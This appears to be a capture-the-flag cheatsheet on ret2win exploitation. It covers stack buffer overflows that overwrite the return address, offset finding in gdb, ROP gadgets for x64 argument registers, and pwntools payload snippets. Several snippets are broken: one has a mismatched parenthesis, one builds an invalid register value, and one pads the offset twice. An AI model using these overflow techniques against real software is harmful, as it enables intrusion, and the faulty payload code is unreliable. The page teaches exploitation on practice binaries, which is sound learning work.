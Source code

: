 ret2win
---
> ret2win refers to challenges where overwriting the return address to a certain function will give the flag.

## x64
Basically if there's a win function in the binary, it has got to be ret2win. Most of the time, it'll be a buffer overflow to control the return address.

The stack may look like this:

```
Buffer                    RBP                       RBP + 8 (RIP)
+-------------------------+-------------------------+-------------------------+
| 41 41 41 41 41 41 41 41 | 00 00 00 00 00 00 00 00 | f5 91 53 13 00 00 00 00 |
+-------------------------+-------------------------+-------------------------+
````

To get the offset of RBP:

```
(gdb)
pattern create 100
r
pattern search $rbp
```

The goal is to overflow input into RBP + 8 (which holds the return address, and change its value to the return address of another function in the binary.
This can be achieved with pwntools via this:
```py
from pwn import *
with process("./binary") as p:
    offset = 8
    win = int(b"0x400df8", 16)
    p.sendline(b'A'*offset + p64(win)(
    p.interactive()
```

### Calling convention
If the win function requires specific parameters to pass, we need to make use of certain snippets of assembly in the program (known as gadgets) to modify the contents of the registers.

The 6 registers used for function parameters (x64) are:
1. RDI
2. RSI
3. RDX
4. RCX
5. R8
6. R9

When a function is called, it takes its parameters from these registers sequentially. Let's say we have a function win(username, password). The value of username is taken from RDI, and password from RSI. So, to control these 2, we need to find certain gadgets in the program that allow us to call them, pop a value from the top of the stack into a register, and return to another address.

To find these gadgets, we can make use of ROPgadget:

```bash
$ ROPgadget --binary ./<binary>

...
0x00000000004010a3 : pop rdi ; ret
0x00000000004010a1 : pop rsi ; pop r15 ; ret
...
```

What do the 2 gadgets above do? The first stores the top value in the stack into RDI, and returns to the address indicated by the second-top value. The second stores the top value into RSI, the second-top value into R15, and returns to the address indicated by the third-top value. Since we're interested in the first 2 registers (RDI and RSI) and not R15, our payload can look something like this:

```py
p.sendline(b'A'*offset + b'A'*offset + p64(0x4010a3) + p64(0xdeadbeef) + p64(0x4010a1) + p64(int([hex(i)[2:] for i in b'password', 16])) + p64(0) + p64(win))
#          offset        offset        1st gadget	   RDI value         2nd gadget      RSI value                                             R15      win function
```

## x32
For 32-bit, we want to control EIP instead. The offset can be easily found using gdb.

```
pattern create 100
r
pattern search $eip
```

The rest of the steps are pretty much similar to x64, so I won't overflow this cheatsheet.

### Calling convention
32-bit calling conventions are much easier to handle as compared to x64: they're all on the stack! This means that we don't need to deal with gadgets etc, which can be useful in some cases where the libc is not loaded into the binary, which means we have a lot less gadgets that we can use. For ret2win, we just need to push our desired values to the stack after calling our gadget/function.

For example:
```py
payload = b'A' * 1337 + p32(0x12345678) + p32(0xdeadbeef) + p32(0xcafebabe)
# 		  win function		first param		  second param and so on...
```
